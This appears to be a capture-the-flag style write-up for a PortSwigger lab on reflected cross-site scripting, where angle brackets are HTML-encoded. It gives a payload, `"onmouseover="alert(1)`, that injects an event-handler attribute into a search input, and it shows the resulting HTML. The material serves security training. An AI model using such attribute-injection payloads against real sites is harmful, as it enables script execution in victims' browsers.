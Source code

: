 # [Lab: Reflected XSS into attribute with angle brackets HTML-encoded](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded)

## Lab

This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.

## Analysis

Try input `<>`:

- raw
- url encode
- double url encode

result: `<>` become `&lt;&gt;`

## Solutions

search:

```html
"onmouseover="alert(1)
```

injected to:

```html
<input type=text placeholder='Search the blog...' name=search value=""onmouseover="alert(1)">
```
